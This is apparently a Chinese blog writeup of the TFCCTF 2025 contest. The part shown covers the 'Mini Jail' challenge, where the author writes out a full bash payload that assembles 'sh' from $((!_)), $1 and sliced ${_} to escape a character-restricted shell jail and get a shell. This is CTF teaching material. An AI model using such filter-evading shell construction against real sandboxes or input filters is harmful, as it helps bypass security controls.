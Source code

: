 ```yaml
---
title: 2025 TFCCTF Writeup
publishDate: 2025-09-01
description: '打打停停，勉强排在#22'
heroImage: {src: 'https://pic.swizzer.cc/2025/09/4630895136cf1924bdbeed295e1642c3.png', inferSize: true}
tags: ["CTF", "Misc", "Crypto", "Jail", "Lattice"]
category: 'Writeups'
draft: false 
lang: ''
---
```

难得碰上一次全数主力~~5个人~~都上线的比赛。不过因为开学选课等等事务，感觉最终也就发挥了七成😶‍🌫️

惯例先贴队友的WP

[some Web challenges solved by @cheng_xing](https://sakuraraindrop.github.io/2025/08/29/TFCCTF-2025/)

# Misc
## Mini Jail

> [题目附件](https://pic.swizzer.cc/2025/09/minijail.zip)

乍一看跟探姬之前搞的[Bashfuck](https://github.com/ProbiusOfficial/bashFuck)很像，不过可用字符集更少。

因为反斜杠被ban了+flag文件名是随机的，所以我猜预期解肯定不是`cat flag*`这种东西，毕竟构造起来太难了。而且flag文件名随机往往暗示着可以直接拿到无限制的shell，因此我的思路就是构造出`sh`去拿shell。

对着探姬给的资料研究了研究发现在这题中可以用`$((!_))`造出来`1`，然后就能造出来`$1`。检查本题的Dockerfile可以知道`$1`拿到的是`yooooooo_mama_test`，然后反复利用切片操作可以拿到`s`。`sh`里还缺个`h`，这个可以通过对`echo`切片拿到，而`echo`用`${_}`就能构造出来。

综合起来可以构造出以下payload，逐行执行即可拿到`sh` shell：

```sh
___=${_}
__=$((!_))
____=${!__}
____=${____:$__}
____=${____:$__}
____=${____:$__}
____=${____:$__}
____=${____:$__}
____=${____:$__}
____=${____:$__}
____=${____:$__}
____=${____:$__}
____=${____:$__}
____=${____:$__}
____=${____:$__}
____=${____:$__}
____=${____:$__}
____=${____:$__}
___=${___:$__}
___=${___:$__}
${____:$((!__)):$__}${___:$((!__)):$__}
```
